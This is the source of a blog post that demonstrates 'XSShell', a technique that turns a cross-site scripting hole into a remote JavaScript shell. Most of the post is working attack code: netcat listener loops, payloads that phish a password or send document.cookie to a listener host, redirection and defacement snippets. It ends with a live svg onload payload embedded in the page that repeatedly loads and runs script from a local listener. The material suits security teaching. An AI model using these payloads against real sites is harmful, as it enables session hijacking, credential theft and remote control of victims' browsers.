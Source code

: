 title: 'Fun with XSShell'
publish: True
categories: [application security]

So this is kinda fun. With this page open, copy and paste one of the listener commands from below into a terminal window on your local machine. Then, paste `alert(42)` into the resulting shell and press "Enter". Once you recover from the initial shock of what you just witnessed, play with the following payloads and spend the next hour of life thoroughly enjoying yourself.

### Listeners

#### Linux

```
while :; do printf "j$ "; read c; echo $c | nc -lp 8000 >/dev/null; done
```

#### OS X

```
while :; do printf "j$ "; read c; echo $c | nc -l 8000 >/dev/null; done
```

### Example Payloads

#### Redirection

```
window.location = 'http://lanmaster53.com/training/'
```

#### Phishing

```
i=new Image();i.src="http://127.0.0.1:8888/pw/"+prompt("Password:")
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Session Hijacking

```
i=new Image();i.src="http://127.0.0.1:8888/pw/"+document.cookie
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Defacement

```
d=document;e=d.createElement("p");e.innerHTML="lanmaster53 wuz here!";d.body.appendChild(e)
```

### Credits

This is all based on the code shared in the following tweets.

<div class="row">
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Target<br><br>&lt;svg/onload=setInterval(function(){d=document;z=d.createElement(&quot;script&quot;);z.src=&quot;//HOST:PORT&quot;;d.body.appendChild(z)},0)&gt;</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639069519097503744">September 2, 2015</a></blockquote>
</div>
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Attacker<br><br>$ while :; do printf &quot;j$ &quot;; read c; echo <a href="https://twitter.com/search?q=%24c&amp;src=ctag">$c</a> | nc -lp PORT &gt;/dev/null; done</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639073880922030080">September 2, 2015</a></blockquote>
</div>
</div>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

<!-- attack payload -->
<svg/onload=setInterval(function(){d=document;try{d.getElementById("x").remove()}catch(e){};z=d.createElement("script");z.id="x";z.src="http://127.0.0.1:8000";d.body.appendChild(z)},3000)>

Check the source code here ^^^ for the active payload.
